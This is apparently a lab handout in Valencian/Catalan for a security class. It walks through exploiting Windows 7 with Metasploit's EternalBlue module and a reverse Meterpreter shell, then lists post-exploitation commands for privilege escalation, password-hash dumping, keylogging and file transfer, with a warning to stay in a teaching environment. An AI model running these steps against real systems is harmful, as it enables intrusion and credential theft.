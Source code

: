 ## En aesta pràctica prepararem la màquina `Windows 7 ` per a poder realitzar algunes activitats amb Metasploit.

!!!danger "Perill!!"
    No proveu açò fora d'un entorn didáctic. Podrieu cometrer un delicte...

### Explotar vulnerabilitat `CVE-2017-010` amb Eternalblue i Doublepulsar des de Metasploit

* Simplement utilitzem el següent exploit:

`use exploit/windows/smb/ms17_010_eternalblue`...i ens torna el control mitjançant un **shell o un Meterpreter** (Metainterprete:payload que permet carregar i injectar en un programa del sistema atacat les extensions que em desenvolupat en format .dll). 

* i payload `set PAYLOAD windows/x64/meterpreter/reverse_tcp`

Ja estem dins...

* Comandaments:
    * sysinfo
    * pwd
    * getuid
    * migrate pid 
    * getsystem
    * hashdump -> crackstation(desxifra el md5)
    * screenshot
    * upload de kali a win7
    * download de W7 a Kali
    * keyscan_start keyscan_dump